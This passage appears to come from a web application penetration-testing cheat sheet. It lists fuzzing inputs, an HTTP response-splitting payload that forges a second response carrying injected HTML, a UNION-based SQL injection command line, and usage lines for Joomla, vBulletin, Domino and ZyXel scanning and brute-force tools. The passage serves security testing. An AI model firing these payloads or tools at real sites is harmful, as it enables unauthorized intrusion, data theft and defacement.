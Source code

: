                             language=?foobar%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20304%20Not%20Modified%0d%0aContent-Type:%20text/html%0d%0aLast-Modified:%20Mon,%2027%20Oct%202003%2014:50:18%20GMT%0d%0aContent-Length:%2047%0d%0a%0d%0a<html>Insert undesireable content here</html>
                %7f , %ff
                    byte-length overflows; maximum 7- and 8-bit values.
                -1, other
                    Integer and underflow vulnerabilities.
                %n , %x , %s
                    Testing for format string vulnerabilities.
                ../
                    Directory Traversal Vulnerabilities.
                % , _, *
                    Wildcard characters can sometimes present DoS issues or information disclosure.
                Ax1024+
                    Overflow vulnerabilities.
            Automated table and column iteration
                orderby.py
                    ./orderby.py www.site.com/index.php?id=
                d3sqlfuzz.py
                    ./d3sqlfuzz.py www.site.com/index.php?id=-1+UNION+ALL+SELECT+1,COLUMN,3+FROM+TABLE--
        Vulnerability Scanners
            Acunetix
            Grendelscan
            NStealth
            Obiwan III
            w3af
        Specific Applications/ Server Tools
            Domino
                dominoaudit
                    dominoaudit.pl [options] -h <IP>
            Joomla
                cms_few
                    ./cms.py <site-name>
                joomsq
                    ./joomsq.py <IP>
                joomlascan

                    ./joomlascan.py <site> <options>  [options i.e. -p/-proxy <host:port> : Add proxy support -404 : Don't show 404 responses]
                joomscan
                    ./joomscan.py -u "www.site.com/joomladir/" -o site.txt -p 127.0.0.1:80
                jscan
                    jscan.pl -f hostname
                    (shell.txt required)
            aspaudit.pl
                asp-audit.pl http://target/app/filename.aspx (options i.e. -bf)
            Vbulletin
                vbscan.py
                    vbscan.py <host> <port> -v
                    vbscan.py -update
            ZyXel
                zyxel-bf.sh
                snmpwalk
                    snmpwalk -v2c -c public IP_Address 1.3.6.1.4.1.890.1.2.1.2
                snmpget
                    snmpget -v2c -c public IP_Address 1.3.6.1.4.1.890.1.2.1.2.6.0
    Proxy Testing
        Burpsuite
        Crowbar
        Interceptor
        Paros
        Requester Raw
        Suru
        WebScarab